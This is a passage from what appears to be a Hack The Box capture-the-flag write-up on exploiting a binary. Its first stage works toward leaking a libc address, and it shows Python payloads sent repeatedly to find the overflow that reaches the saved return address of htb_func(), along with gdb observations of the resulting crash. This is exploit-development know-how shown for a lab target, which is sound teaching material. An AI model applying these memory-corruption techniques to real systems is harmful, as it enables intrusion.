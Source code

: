### Stage 1: Leak libc address

Now, we will want to check how many structures we need to control the saved rip of htb_func(). Let's try with this code to see:

```python
payload = b'0001' + b'htb\x00' + b'0'*0x30
p.send(payload)
payload = b'0001' + b'htb\x00' + b'1'*0x30
p.send(payload)
payload = b'0001' + b'htb\x00' + b'2'*0x30
p.send(payload)
payload = b'0001' + b'htb\x00' + b'3'*0x30
p.send(payload)
payload = b'0001' + b'htb\x00' + b'4'*0x30
p.send(payload)

GDB()
payload = b'0000' + b'htb\x00' + b'5'*0x30
p.send(payload)
```

We will want to create 5 structs and then add it to `s`. When we attach gdb to this process, we got a segfault at following instruction when adding contents to `s`:

![gdb_get_segfault.png](images/gdb_get_segfault.png)

With rax is inputted value:

![gdb_check_rax.png](images/gdb_check_rax.png)

Let's check back the decompiler to see how variables are placed:
